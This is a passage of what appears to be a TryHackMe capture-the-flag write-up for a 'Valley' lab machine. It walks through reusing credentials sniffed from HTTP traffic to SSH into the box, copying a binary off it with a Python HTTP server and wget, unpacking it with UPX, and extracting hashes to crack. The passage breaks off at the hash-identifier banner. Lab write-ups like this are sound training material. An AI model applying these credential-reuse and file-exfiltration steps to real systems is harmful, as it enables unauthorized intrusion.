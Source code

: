 filter to get http packects, follow http stream,
Someone just gave us username and password.
```shell
uname=valleyDev&psw=ph0t0s1234&remember=onHTTP/1.1 200 OK
```
Looks like we can try to access the server (ssh)
```shell
ssh valleyDev@10.10.83.68
```
we are in.
Do an ls and user.txt file is there.
```shell
valleyDev@valley:~$ cat user.txt 
THM{********}
```
But that is all we can see as this user and with these privileges.
Lets find a way to change that :)

Change directory to home directory and check files.
```shell
cd ..
ls -la
```

### Hash capturing

There is an interesting file valleyAuthenticator.
fetch it to our local machine using python server
on host 
```shell
python3 -m http.server 1234
```
on local machine - 
```shell
wget http://10.10.83.68:1234/valleyAuthenticator
```
check character string of the file
```shell
strings valleyAuthenticator
```

At the end there is *UPX!* and what might this mean.
UPX (Ultimate Packer for Executables) is a popular open-source executable file compression utility.
it is a data compresser 
we just decompress the file 
```shell
upx -d valleyAuthenticator
```
### Hash cracking

Inspect the strings an we see something interesting.
There seems to be a hash in the metadata of the file.
```shell
e6722920bab2326f8217e4bf6b1b58ac
dd2921cc76ee3abfd2beb60709056cfb
```
Copy it and put in file (hash for my instance)
use hash-identifier or online tools to check type of hashing used here.
```shell
─$ hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
```